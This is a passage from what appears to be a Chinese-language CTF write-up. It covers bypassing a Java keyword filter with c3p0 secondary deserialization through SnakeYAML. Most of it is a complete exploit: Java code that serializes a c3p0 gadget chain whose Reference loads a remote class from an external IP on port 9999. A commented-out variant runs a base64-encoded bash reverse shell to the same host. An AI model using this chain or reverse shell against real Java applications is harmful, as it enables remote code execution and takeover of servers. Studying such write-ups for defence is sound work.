    public SafeConstructorWithException(String data) throws SafeStringException, CustomException {
        this.data = data;
        this.checkForExceptions();
    }

    private void checkForExceptions() throws SafeStringException, CustomException {
        String upperCaseData = this.data.toUpperCase();
        if (!upperCaseData.contains("JAVA") && !upperCaseData.contains("JNDI") && !upperCaseData.contains("JDBC")) {
            if (upperCaseData.contains("42616441747472696275746556616C7565457870457863657074696F6E") || upperCaseData.contains("486F74537761707061626C65546172676574536F75726365")) {
                throw new CustomException("No way to pass!");
            }
        } else {
            throw new SafeStringException("Unsafe data detected!");
        }
    }
}
```

仔细看依赖，发现在`pom.xml`中加上了`c3p0 0.9.5.2`，明显就是打`c3p0`的依赖了，这里过滤的东西完全都可以通过`c3p0`的二次反序列化来绕过，因此`snakeyaml`解析触发到最后是因为`property.set()`触发`set`方法，同样就可以触发`setuserOverridesAsString`，可以通过`c3p0`的二次反序列化打`c3p0`的动态类加载，这里`tomcat`的依赖已经到9，也就不存在`beanFactory`不出网的打法了，直接打`ReferenceableUtils.referenceToObject`进行类加载即可。

事实上解题的时候，卡了，以为是不出网了，试了下不出网打法，发现不可行。

exp如下：

```plain
package com.app;


import com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase;
import org.apache.naming.ResourceRef;
import org.yaml.snakeyaml.Yaml;

import javax.naming.NamingException;
import javax.naming.Reference;
import javax.naming.Referenceable;
import javax.naming.StringRefAddr;
import javax.sql.ConnectionPoolDataSource;
import javax.sql.PooledConnection;
import java.io.*;
import java.lang.reflect.Field;
import java.sql.SQLException;
import java.sql.SQLFeatureNotSupportedException;
import java.util.logging.Logger;

public class normal_snake {
    public static class C3P0 implements ConnectionPoolDataSource, Referenceable {

        @Override
        public Reference getReference() throws NamingException {
           return new Reference("exploit","evil","http://120.79.29.170:9999/");
//            ResourceRef resourceRef = new ResourceRef("javax.el.ELProcessor", (String)null, "", "", true, "org.apache.naming.factory.BeanFactory", (String)null);
//            resourceRef.add(new StringRefAddr("forceString", "x=eval"));
//            resourceRef.add(new StringRefAddr("x", "Runtime.getRuntime().exec('bash -c \"{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjAuNzkuMjkuMTcwLzY2NjYgMD4mMQ==}|{base64,-d}|{bash,-i}\"')"));
//            return resourceRef;
        }

        @Override
        public PooledConnection getPooledConnection() throws SQLException {
            return null;
        }

        @Override
        public PooledConnection getPooledConnection(String user, String password) throws SQLException {
            return null;
        }

        @Override
        public PrintWriter getLogWriter() throws SQLException {
            return null;
        }

        @Override
        public void setLogWriter(PrintWriter out) throws SQLException {

        }

        @Override
        public void setLoginTimeout(int seconds) throws SQLException {

        }

        @Override
        public int getLoginTimeout() throws SQLException {
            return 0;
        }

        @Override
        public Logger getParentLogger() throws SQLFeatureNotSupportedException {
            return null;
        }
    }
    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException, ClassNotFoundException {
        C3P0 c3P0=new C3P0();
        PoolBackedDataSourceBase poolBackedDataSourceBase=new PoolBackedDataSourceBase(false);//有参构造方法是public
        Field connectionPoolDataSource=poolBackedDataSourceBase.getClass().getDeclaredField("connectionPoolDataSource");
        connectionPoolDataSource.setAccessible(true);
        connectionPoolDataSource.set(poolBackedDataSourceBase,c3P0);
        String hex=byteArrayToHexString(serialize(poolBackedDataSourceBase));
        String poc = "!<tag:yaml.org,2002:com.mchange.v2.c3p0.WrapperConnectionPoolDataSource> {userOverridesAsString: \"HexAsciiSerializedMap:" + hex + ";\"}";
        System.out.println(poc);
//        Yaml yaml=new Yaml();
//        yaml.load(poc);
//        byte[] result=serialize(poolBackedDataSourceBase);
//        unserialize(result);
    }
    public static byte[] serialize(Object object) throws IOException {
        ByteArrayOutputStream byteArrayOutputStream=new ByteArrayOutputStream();
        ObjectOutputStream outputStream=new ObjectOutputStream(byteArrayOutputStream);
        outputStream.writeObject(object);
        outputStream.close();
        return byteArrayOutputStream.toByteArray();
    }

    public static  void unserialize(byte[] s) throws IOException, ClassNotFoundException {
        ByteArrayInputStream byteArrayInputStream=new ByteArrayInputStream(s);
        ObjectInputStream objectInputStream=new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }
    public static String byteArrayToHexString(byte[] byteArray) {
        StringBuilder sb = new StringBuilder();

        for (byte b : byteArray) {
            sb.append(String.format("%02X", b));
        }

        return sb.toString();
    }

}
```
